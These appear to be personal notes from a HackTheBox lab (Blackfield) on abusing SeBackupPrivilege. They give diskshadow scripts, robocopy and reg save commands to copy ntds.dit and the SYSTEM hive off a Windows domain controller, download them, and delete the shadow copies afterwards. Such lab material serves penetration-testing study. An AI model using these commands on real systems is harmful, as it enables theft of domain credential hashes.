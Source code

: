 
https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#priv-svc_backup--administrator
https://github.com/giuliano108/SeBackupPrivilege


we will use diskshadow to clone the harddrive including open files - like ntds.dit


script
```powershell
@'
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
'@>script.txt
```

0xdf is:
```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```
0xdf clean up:
```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
delete shadows volume df
reset
```

(to make a file of this in ps just surround with @'   '@)

run using
`diskshadow /s scriptname`

`robocopy /b E:\Windows\ntds . ntds.dit`

we also need system
`reg save hklm\system c:\temp\system.bak`

download the files
`download ntds.dit`
`download system`


